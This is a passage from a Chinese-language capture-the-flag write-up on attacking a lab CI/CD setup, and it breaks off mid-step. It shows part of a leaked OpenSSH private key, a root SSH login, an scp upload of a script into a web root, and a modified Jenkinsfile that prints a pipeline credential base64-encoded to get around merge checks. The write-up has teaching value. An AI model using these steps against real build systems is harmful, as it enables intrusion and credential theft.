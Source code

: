 ```plain
m9ZN6VGIbnFgtItUN8ntsS2srJ3N5VyfNiGg3pM3p0pWtOmSgjTPjrbeEtb44O73/0z38W
HfzphsbgHg0TVVEFN28N7yLHYpMRkLPz70h/RIBLRmaZrIYKuQ+KgSAPAKydnHaV8JJV75
ubOTb6IEGcR9jFOjwnEe+7pC3AZOwdkstQqCM8mUWUywqKVQ2j4iFeCWyGc2jWGq3tpT9C
oRq1Wiv56KO8IJGHfIAczKyTyLwrxgxwAAAMEA1/MFbll+7fir7eNaJuD2nhvOVq0BlBTj
KLOlCgZnBsWhh+uL+/7hzPQJdG9qZyjk2nkPeUzgwgfbtsjDhp18d1rN+ZvP7mXgtzS02K
ownCDcQz+weO/BhAFFl6IkDPB0XnC8oC0PNKs9Pp9SKlkiDtTKcvFCOBaq5LOn3XFQdaZR
lFAeCtpLFZd1aqozL+WxdhJ+OlUMWexAHNVInX3vM245R2hiSEHJfCMKwKmdQ2nkpyCjMz
nFX2YLEFe9BqS3AAAAF2FzaUBBc2FmLkdyZWVuaG9sdHMtTUJQAQID
-----END OPENSSH PRIVATE KEY-----

--------------------------ab4b01bd9df8bad8--
```

这里就拿到了 key，可以 ssh 直接登录：

```plain
chmod 400 key
ssh -i key -p 2222 root@127.0.0.1
```

或者用 scp 修改文件：

```plain
echo "${FLAG}" | base64 > reportcov.sh
chmod 400 key
scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
```

再 build pipeline 就可以获得 flag。

## Mock Turtle

Jenkins 代码有三层判断，问一下 newbing，第一部分是检查增加的单词数和减少的单词数必须相同；第二部分是判断 version 文件是否只有一行，并且符合 x.y.z 的格式；第三部分是判断 pull request 中是否修改了 version 文件。满足上面条件就会执行 merge。

因此修改`Jenkinsfile`

```plain
pipeline {
    agent any
    stages {
        stage('pr_checks') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'flag10', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
            }
        }
}
```

修改 version（`echo "1.0.13\c">version`，最后不能有换行）：
